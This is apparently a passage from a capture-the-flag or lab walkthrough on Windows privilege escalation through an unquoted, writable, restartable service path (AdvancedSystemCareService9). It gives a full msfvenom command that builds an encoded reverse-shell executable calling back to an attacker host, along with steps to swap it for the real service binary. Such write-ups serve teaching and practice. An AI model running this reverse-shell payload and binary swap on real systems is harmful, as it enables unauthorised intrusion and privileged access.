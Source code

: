 ```
Check          : Unquoted Service Paths
```
- Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?
  > AdvancedSystemCareService9
- The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

  Use msfvenom to generate a reverse shell as an Windows executable.

  `msfvenom -p windows/shell_reverse_tcp LHOST=<attack_ip> LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe`

  Upload your binary and replace the legitimate one. Then restart the program to get a shell as root.

### Task 4






